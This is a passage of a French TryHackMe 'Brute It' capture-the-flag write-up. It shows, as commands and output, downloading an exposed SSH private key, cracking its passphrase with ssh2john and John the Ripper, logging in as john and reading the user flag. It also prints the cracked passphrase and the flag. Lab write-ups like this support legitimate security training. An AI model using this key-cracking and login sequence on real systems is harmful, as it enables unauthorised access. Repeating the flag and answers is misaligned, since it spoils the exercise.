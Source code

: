 On a sur la page le nom d'utilisateur qui est : john.   
Le lien sur la page nous affiche la clef.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget -nv http://bruteit.thm/admin/panel/id_rsa
2021-08-05 09:45:39 URL:http://bruteit.thm/admin/panel/id_rsa [1766/1766] -> "id_rsa" [1]


tim@kali:~/Bureau/tryhackme/write-up$ /usr/share/john/ssh2john.py id_rsa > hash
tim@kali:~/Bureau/tryhackme/write-up$ john hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
rockinroll       (id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:02 DONE (2021-08-05 09:50) 0.3831g/s 5494Kp/s 5494Kc/s 5494KC/sa6_123..*7¡Vamos!
Session completed

```

On télécharge la clef.   
On la convertie pour que john the ripper puisse la casser. 
On brute force la clef.   

La réponse est : rockinroll     

**user.txt**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ chmod 600 id_rsa 

tim@kali:~/Bureau/tryhackme/write-up$ ssh -i id_rsa john@bruteit.thm
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-118-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Aug  5 08:02:48 UTC 2021

  System load:  0.08               Processes:           103
  Usage of /:   25.7% of 19.56GB   Users logged in:     0
  Memory usage: 39%                IP address for eth0: 10.10.58.6
  Swap usage:   0%


63 packages can be updated.
0 updates are security updates.


Last login: Wed Sep 30 14:06:18 2020 from 192.168.1.106

john@bruteit:~$ cat user.txt
THM{a_password_is_not_a_barrier}
```

